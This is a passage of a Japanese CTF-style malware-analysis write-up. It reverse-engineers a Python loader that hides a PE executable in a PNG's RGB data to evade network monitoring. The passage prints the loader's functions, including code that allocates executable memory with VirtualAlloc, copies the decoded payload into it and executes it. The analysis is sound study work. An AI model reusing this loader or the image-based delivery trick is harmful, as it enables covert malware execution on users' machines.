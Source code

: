 一見するとただのPNG形式ですが，明らかに怪しいノイズデータとなっています．無害なファイル形式を装ってコンテンツをローカルへ保存する手法はネットワークの監視をすり抜ける常套手段でもあります．今回の例であれば，監視ツールから見るとimgurからただ画像を取得したと判断されたのだと思います．特にPNG形式は可逆圧縮なのでコンテンツの隠れ蓑として優秀であると言えます\footnote{CTFで言えば意図的に情報を隠すステガノグラフィとして一大分野になっていますよね...？}．関数\texttt{get\_encoded\_data}ではPNG形式のRGB成分からバイトコードへ変換されています．また，フォーマットを解析して，バイトコードからコンテンツを展開するためにPILを使った関数は\texttt{is\_valid\_payl}でした．関数内でチェックしている23117と17744は，16進数へ変換してやるとMZやPEのマジックナンバーであることに気が付きました．つまり，この関数はデコードしたデータをPE形式などの実行可能ファイルへ変換していると推察できます．実行ファイルを抽出するために\texttt{another.py}を再度書き換えます．\texttt{main}では次に\texttt{load\_level2}へデコードしたデータを渡しています．
\begin{tcolorbox}[sharp corners, left=2mm]\scriptsize
\begin{verbatim}
def is_valid_payl(content):
    if get_word(content) != 23117:
        return False
    next_offset = get_dword(content[60:])
    next_hdr = content[next_offset:]
    if get_dword(next_hdr) != 17744:
        return False
    return True
\end{verbatim}
\end{tcolorbox}
\begin{tcolorbox}[sharp corners, left=2mm]\scriptsize
\begin{verbatim}
def load_level2(rawbytes, bytesread):
    try:
        if prepare_stage(rawbytes, bytesread):
            return True
    except:
        return False

def prepare_stage(content, content_size):
    virtual_buf = kernel_dll.VirtualAlloc(0, content_size, 12288, 64)
    if virtual_buf == 0:
        return False
    res = memmove(virtual_buf, content, content_size)
    if res == 0:
        return False
    MR = WINFUNCTYPE(c_uint)(virtual_buf + 2)
    MR()
    return True
\end{verbatim}
\end{tcolorbox}
ソースコードを読むと，この関数は，まずはじめに\texttt{VirtualAlloc}を使用して，コードを格納するための十分な領域を確保しています．第四引数の64は，\texttt{PAGE\_EXECUTE\_READWRITE}を意味するので読み書き可能・実行可能な権限で領域であるとわかります．対象は\texttt{memmove}関数によって書き込みが実行されるといった内容です．\texttt{prepare\_stage}へ数行追加してコンテンツのダンプファイルを取得してみましょう．
